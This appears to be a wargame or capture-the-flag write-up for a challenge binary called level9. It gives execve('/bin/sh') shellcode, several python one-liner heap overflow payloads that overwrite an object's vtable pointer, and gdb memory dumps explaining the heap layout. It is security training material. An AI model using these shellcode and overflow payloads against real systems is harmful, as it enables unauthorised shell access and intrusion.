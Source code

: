 ```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```bash
(python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level9
```

```bash
./level9 `python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```
```bash
./level9 `python -c 'print("A" * 216 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

```bash
./level9 `python -c 'print("A" * 4 + "\x14\xa0\x04\x08" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 76 + "\x10\xa0\x04\x08")'`
```

Here is the layout of the heap after the two allocation and construction of N object, and before
the call to `setAnnotation`

```bash
(gdb) x/75x 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000005	0x00000071	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000006	0x00020f21	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a110:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a120:	0x00000000	0x00000000	0x00000000
```

`0x08048848` indicates start of struct

`instance1->nb` at this + 26 * 4 = `0x00000005`

`instance2->nb` at this + 26 * 4 = `0x00000006`

```bash
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:	0x8be58955
```

this address might be the pointer on member function called at the end of the main return value

